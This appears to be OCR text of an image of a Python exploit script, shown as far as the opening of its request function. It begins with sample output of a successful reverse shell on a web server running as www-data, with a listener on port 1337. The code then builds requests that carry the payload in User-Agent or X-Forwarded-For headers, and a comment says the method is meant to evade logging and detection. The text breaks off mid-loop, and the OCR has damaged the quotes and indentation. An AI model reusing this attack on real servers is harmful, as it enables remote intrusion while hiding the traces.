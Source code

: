 ```

<Response [200]>

Listening on [0.0.0.0] (family 0, port 1337)

$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

‘’’

import requests

import subprocess

import argparse

import sys

import base64

import string

import random

import time

import urllib3

def id_generator(size=6, chars=string.ascii_uppercase + string.digits):

return str(’’.join(random.choice(chars) for _ in range(size)))

def get_url(url, user_agent, ua_method, proxyDict):

if ua_method == True :

# Defaul PoC

headers = {

‘User-Agent’: user_agent

}

else:

# Firefox user_agent and x-forwarded-for method to evade log and lower detection

headers = {

‘User-Agent’: ‘Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0’,

‘X-Forwarded-For’: user_agent

}

try:

cookies = requests.get(url,headers=headers, proxies=proxyDict, verify=False).cookies

for _ in range(3):

```